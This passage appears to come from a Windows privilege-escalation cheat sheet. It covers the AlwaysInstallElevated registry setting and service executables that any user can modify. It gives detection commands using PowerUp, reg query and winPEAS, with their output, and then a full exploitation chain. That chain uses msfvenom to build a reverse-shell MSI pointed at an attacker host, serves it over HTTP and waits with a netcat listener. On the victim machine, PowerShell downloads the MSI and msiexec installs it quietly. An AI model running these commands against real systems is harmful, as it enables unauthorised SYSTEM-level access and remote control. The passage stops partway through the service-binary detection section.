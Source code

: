 ##### Detection

```
powershell -exec bypass -command "& { Import-Module .\PowerUp.ps1; Invoke-AllChecks; }"

[*] Checking for AlwaysInstallElevated registry key...

AbuseFunction : Write-UserAddMSI
```

or

```
reg query HKLM\Software\Policies\Microsoft\Windows\Installer
reg query HKCU\Software\Policies\Microsoft\Windows\Installer

If both values are equal to 1 then it's vulnerable.
```

or

```
winPEAS.exe

[+] Checking AlwaysInstallElevated(T1012)

  AlwaysInstallElevated set to 1 in HKLM!
  AlwaysInstallElevated set to 1 in HKCU!
```

##### Exploitation

```
# Attacker
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f msi > program.msi
sudo python -m SimpleHTTPServer 80
sudo nc -lvp <PORT>

# Victim
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://<IP>/program.msi', 'C:\Temp\program.msi')
msiexec /quiet /qn /i C:\Temp\program.msi
```

#### Executable Files

##### Detection

```
powershell -exec bypass -command "& { Import-Module .\PowerUp.ps1; Invoke-AllChecks; }"

[*] Checking service executable and argument permissions...

ServiceName                     : filepermsvc
Path                            : "C:\Program Files\File Permissions Service\filepermservice.exe"
ModifiableFile                  : C:\Program Files\File Permissions Service\filepermservice.exe
ModifiableFilePermissions       : {ReadAttributes, ReadControl, Execute/Traverse, DeleteChild...}
ModifiableFileIdentityReference : Everyone
StartName                       : LocalSystem
AbuseFunction                   : Install-ServiceBinary -Name 'filepermsvc'
CanRestart                      : True
```
